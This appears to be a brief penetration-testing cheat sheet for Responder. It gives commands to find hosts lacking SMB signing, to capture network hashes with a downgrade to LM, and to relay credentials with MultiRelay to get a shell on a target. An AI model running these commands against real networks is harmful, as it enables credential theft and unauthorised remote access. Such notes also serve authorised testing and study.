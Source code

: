 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* `responder -i <interface> <--lm>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `
